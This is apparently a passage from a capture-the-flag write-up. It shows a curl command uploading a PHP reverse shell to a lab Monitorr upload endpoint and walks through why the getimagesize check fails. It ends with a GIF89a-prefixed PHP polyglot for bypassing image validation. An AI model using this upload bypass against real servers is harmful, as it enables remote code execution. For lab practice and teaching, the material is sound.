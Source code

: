 > Look for the reverse shells cheat sheet in _Additional readings_ 

```sh
$ curl -X POST --data @pshell.php -b "isHuman=1" https://monitorr.robyns-petshop.thm/assets/php/upload.php -k 

<div id='uploadreturn'><div id='uploaderror'>ERROR:  is not an image or exceeds the webserver’s upload size limit.</div><div id='uploaderror'>ERROR: ../data/usrimg/ already exists.</div><div id='uploaderror'>ERROR:  was not uploaded.</div></div>   
```

In the `/upload.php` we can read:

```php
$check = getimagesize($_FILES["fileToUpload"]["tmp_name"]);

 #...

if($check !== false) {
        echo "File " . $rawfile . " is an image: " . $check["mime"] ;
            echo "<br>";
        $uploadOk = 1;
    } 
    
else {
    echo "<div id='uploaderror'>";
        echo "ERROR: " . $rawfile .  " is not an image or exceeds the webserver’s upload size limit.";
    echo "</div>";
    $uploadOk = 0;
}
```

So, it uses `getimagesize` function to determine if the file is an image...

From [PHP Manual](https://www.php.net/manual/en/function.getimagesize.php):

>**Caution** This function expects filename to be a valid image file. If a non-image file is supplied, it may be incorrectly detected as an image and the function will return successfully, but the array may contain nonsensical values.
>Do not use getimagesize() to check that a given file is a valid image. Use a purpose-built solution such as the Fileinfo extension instead.

And in the [comment](https://www.php.net/manual/en/function.getimagesize.php#116976):

> Note: getimage size doesn't attempt to validate image file formats
>It is possible for malformed GIF images to contain PHP and still have valid dimensions.
>Programmers need to ensure such images are validated by other tools, or never treated as PHP or other executable types (enforcing appropriate extensions, avoiding user controlled renaming, restricting uploaded images to areas of the website where PHP is not enabled).
>http://ha.ckers.org/blog/20070604/passing-malicious-php-through-getimagesize/

URL is down, but on the [StackOverflow](https://stackoverflow.com/a/27899862):

> Ok, something like this should do the trick:
```text
GIF89a<?php
echo 'hi';
```
